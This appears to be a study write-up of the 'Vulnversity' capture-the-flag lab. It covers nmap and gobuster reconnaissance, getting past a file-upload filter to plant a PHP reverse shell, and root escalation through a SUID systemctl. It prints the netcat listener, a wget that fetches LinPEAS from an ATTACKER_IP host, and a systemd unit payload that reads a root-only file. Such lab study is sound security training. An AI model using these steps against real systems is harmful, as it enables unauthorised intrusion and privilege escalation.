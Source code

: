 # Vulnversity
## Reconnaissance

| Nmap Flag | Description
| --- | ---
| `-sV` | Attempt to determine version of running services.
| `-p <x>` or `-p-` | Port scan for port <x> or scan all ports.
| `-Pn` | Disable host discovery and scan for open ports.
| `-A` | Enable OS and version detection, executes in-built scripts for further examination.
| `-sC` | Scan with default Nmap scripts.
| `-v` | Verbose mode.
| `-sU` | UDP port scan.
| `-sS` | TCP SYN port scan.

## Locating Directories Using [Gobuster](https://github.com/OJ/gobuster)
* Brute forces URIs (directories and files), DNS subdomains, and virtual host names.
* Install Gobuster on Kali.
```
sudo apt-get install gobuster
```
* Requires wordlist to identify if public directory is available.
* Kali `/usr/share/wordlists` folder contains many wordlists.

| Gobuster Flag | Description
| --- | ---
| `dir` | Use directory/file bruteforcing.
| `-e` | Prints full URLs to the console.
| `-u` | Target URL.
| `-w` | Path to wordlist.
| `-U` and `-P` | Username and password for basic authentication.
| `-p <x>` | Proxy to use for requests.
| `-c <http cookies>` | Specify cookie for simulatin authentication.

## Compromise the Webserver
* [Download reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
* Upload to `http://TARGET_IP:3333/internal/`.
  * PHP file extensions blocked by upload form.
* Fuzz upload form using BurpSuite to identify which extensions are not blocked.
### Use the Intruder to automate customised attacks.
#### 1. Make a wordlist of extensions.
```
printf "php\nphp3\nphp4\nphp5\nphtml" >  phpext.txt
```
#### 2. Intercept browser traffic with BurpSuite.
#### 3. Send captured request to Intruder.
* "Sniper" attack type.
* "Payload Positions" > find the filename > prefix and suffix `§` to extension.
* "Payloads" > "Payload settings" > "Load" > phptext.txt.
   * `.phtml` extensions allowed by upload form.
#### 4. Start the attack.
* Edit `php-reverse-shell.php`.
   * Change IP to attacking machine.
   * Rename file to `php-reverse-shell.phtml`.
* Reverse shell is called on target.
* Forces a connection to listening attacker.
```
mv php-reverse-shell.php php-reverse-shell.phtml
```
#### 5. Listen to incoming connections using netcat.
```
nc -lvnp 1234
```
#### 6. Upload shell to webserver.
#### 7. Execute payload.
* Navigate to `http://TARGET_IP:3333/internal/uploads/php-reverse-shell.phtml`
#### 8. Connection established on Netcat session.
```
Connection from 10.10.240.196 33302 received!
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:00:44 up  1:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
## Privilege Escalation
* Linux SUID (set owner userId upon execution) is special type of file permission.
* Gives temporary permissions to a user to run binary with permission of file owner.
  * E.g. `/usr/bin/passwd` binary file to change user password has SUID bit set.
    * User needs to be able to write to shadowers file but only root has access by default.
    * User account has root privileges to make the right changes.
```
4  2  1  4  2  1  4  2  1
r  w  x  r  w  x  r  w  x
SUID  V     V     V
r  w  s  r  w  x  r  w  x
-------
 User
```
* Upgrade to TTY shell using Python.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
* Search for all SUID files.
```
find / -user root -perm -4000 -print 2>/dev/null
```
  * `-user root` is file owner.
  * `-perm 4000` specifies permissions.
* Use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) scripts to identify SUID vulnerabilties.
```
mkdir /home/kali/linpeas
cd /home/kali/linpeas
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
* Serve payload through python webserver.
```
python3 -m http.server
```
* Download LinPEAS to target.
* Ensure that target directory has write permissions (`/tmp`).
* Write LinPeas output to txt file.
```
wget http://ATTACKER_IP:8000/linpeas.sh
chmod +c ./linpeas.txt
./linpeas.sh -a > linpeas.txt
```
* Read SUID part of linpeas.txt file.
```
grep -A 50 "SUID - Check easy privesc, exploits and write perms" ./linpeas.txt
```
   * `-A 50` means list 50 lines after the search term "SUID - Check easy privesc, exploits and write perms".
* LinPEAS shows /bin/systemctl highlighted in red/yellow signifying a 95% privilege escalation vector.
* Browse to [GTFOBins](https://gtfobins.github.io)
  * Select `SUID`'
  * `CTRL+F` and search for `systemctl`.
```
If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

// Change to /tmp as this directory is writable
cd /tmp
// Create local SUID copy of bash binary and run it to maintain elevated (root) privileges.
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.PzHSya3VD0.service to /tmp/tmp.PzHSya3VD0.service.
/bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.X6k1yvp1ii.service to /tmp/tmp.X6k1yvp1ii.service. 
```
* `cat /tmp/output` to read file that contains contents of restricted `/root/root.txt` file.
